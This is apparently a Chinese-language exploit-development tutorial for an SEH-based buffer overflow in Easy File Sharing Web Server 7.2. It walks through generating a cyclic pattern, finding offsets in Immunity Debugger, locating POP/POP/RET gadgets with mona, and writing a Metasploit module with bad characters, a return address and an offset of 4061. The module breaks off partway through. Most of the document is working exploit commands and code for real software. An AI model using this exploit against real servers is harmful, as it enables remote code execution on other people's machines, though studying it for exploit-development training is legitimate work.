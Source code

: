 ## 确定溢出点的位置
1. 生成字符序列
```
/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l 10000 > a.txt
python -c "print(' HTTP/1.0\r\n\r\n')" > b.txt
cat a.txt b.txt > c.txt
```
删除cat造成的多余字符0x0a
```
vim -bz.txt
# In Vim
:%!xxd
# After editing, use the instruction below to save
:%!xxd -r
```

2. 构造SEH链
- 将Easy File Sharing Web Server 7.2加载到ImmunityDebugger中，并处于运行状态。
- 发送溢出字符序列
- 查看Easy File Sharing Web Server 7.2溢出地址
![](https://res.cloudinary.com/dozyfkbg3/image/upload/v1562744240/pwn/231.png)

3. 计算偏移量
计算catch块偏移量&计算下一条SEH记录偏移量

## 寻找PPR
1. 使用mona寻找
需要POP/POP/RET指令的地址来载入下一条SEH记录的地址，并跳转到攻击载荷
```
!mona modules
!mona seh
```

## 自动化攻击
1. 编写攻击脚本
```ruby=
require 'msf/core'
class MetasploitModule < Msf::Exploit::Remote
  Rank = NormalRanking
  include Msf::Exploit::Remote::Tcp
  include Msf::Exploit::Seh

  def initialize(info = {})
    super(update_info(info,
      'Name'            => 'Easy File Sharing HTTP Server 7.2 SEH Overflow',
      'Description'     => %q{
        This Module Demonstrate SEH based overflow example
      },
      'Author'          => 'yanhan',

      'Payload'         =>
        	{
          		'Space'       => 390,
          		'BadChars'    => "\x00\x7e\x2b\x26\x3d\x25\x3a\x22\x0a\x0d\x20\x2f\x5c\x2e"
        	},
      'Platform'      => 'Windows',
      'Targets'       =>
         		 [
            		   [
              		   'Easy File Sharing 7.2 HTTP',
              			{
                		'Ret'       => 0x10022fd7,
                		'Offset'    => 4061
```